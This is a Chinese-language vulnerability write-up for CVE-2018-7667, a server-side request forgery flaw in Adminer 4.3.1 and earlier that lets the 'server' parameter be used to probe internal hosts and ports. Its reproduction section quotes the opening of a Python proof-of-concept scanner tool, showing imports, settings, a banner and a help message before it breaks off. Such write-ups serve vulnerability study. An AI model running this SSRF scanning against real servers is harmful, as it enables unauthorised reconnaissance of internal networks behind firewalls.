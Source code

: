 （CVE-2018-7667）Adminer 服务器端请求伪造漏洞
=============================================

一、漏洞简介
------------

Adminer
4.3.1及之前版本存在服务器端请求伪造漏洞。攻击者可借助'server'参数利用该漏洞绕过防火墙，确定内部主机，扫描其他服务器的端口。

二、漏洞影响
------------

Adminer\<=4.3.1

三、复现过程
------------

### poc

    import socket,re,ssl,warnings,subprocess,time
    from platform import system as system_name 
    from os import system as system_call

    #Adminer Server Side Request Forgery
    #PortMiner Scanner Tool
    #by John Page (hyp3rlinx)
    #ISR: ApparitionSec
    #hyp3rlinx.altervista.org 
    #=========================
    #D1rty0Tis says hi.

    #timeout
    MAX_TIME=32
    #ports to log
    port_lst=[]  
    #Web server response often times out but usually means ports open.
    false_pos_ports=['80','443'] 

    BANNER='''
               ____            _   __  __ _                  
              |  _  \         | | |  \/  (_)                 
              | |__) |__  _ __| |_| \  / |_ _ __   ___ _ __  
              |  ___/ _ \| '__| __| |\/| | | '_ \ / _ \ '__| 
              | |  | (_) | |  | |_| |  | | | | | |  __/ |    
              |_|   \___/|_|   \__|_|  |_|_|_| |_|\___|_|                                                                                                             
           '''                               
       

    def info():
        print "\nPortMiner depends on Error messages to determine open/closed ports."
        print "Read operations reported 'timed out' may be open/filtered.\n"
